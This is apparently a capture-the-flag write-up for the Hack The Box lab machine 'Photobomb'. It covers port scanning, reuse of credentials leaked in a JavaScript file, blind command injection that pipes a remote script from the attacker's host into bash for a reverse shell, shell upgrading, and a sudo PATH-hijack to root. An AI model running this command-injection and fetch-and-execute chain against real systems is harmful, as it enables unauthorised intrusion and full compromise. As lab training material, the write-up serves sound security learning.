

# [Photobomb](https://app.hackthebox.com/machines/photobomb)

```bash
nmap -p- --min-rate 10000 10.10.11.182 -Pn
```


After knowing open ports, let's do greater nmap scan for this open ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.182
```


I wrote this ip address into '/etc/hosts' file for resolving.

There's endpoint called '/printer' which asks HTTP authentication.


I just review source code of application and found '**photobomb.js**' script.

I get sensitive credentials from here.


pH0t0:b0Mb!


I will use this credentials for `/printer` endpoint.


Now, I just try to download some image and capture this via `Proxy` to see network traffic.

That's POST request.


Let's try command injection payloads. I type `sleep` cmdlet into here.


It's Blind Command Injection, that's why I gain a webshell by requesting into my http server for reverse shell.

1.For this, I create malicious `.sh` file and serve via httpserver.
```bash
python3 -m http.server --bind 10.10.16.7 8080
```


2.Second, I will `curl` this malicious file and run this via `bash` binary.
```bash
curl+10.10.16.7:8080/dr4ks.sh|bash
```


Hola, I got reverse shell from port (1337).


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


user.txt


For privilege escalation, I just run `sudo -l` command.




I read this file's content and see that `find` binary is used.


Let's create ourselves malicious `find` binary which gives root shell. (`Path Hijack`)

```bash
cd /tmp
echo -e '#!/bin/bash\n\nbash' > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh 
```


root.txt

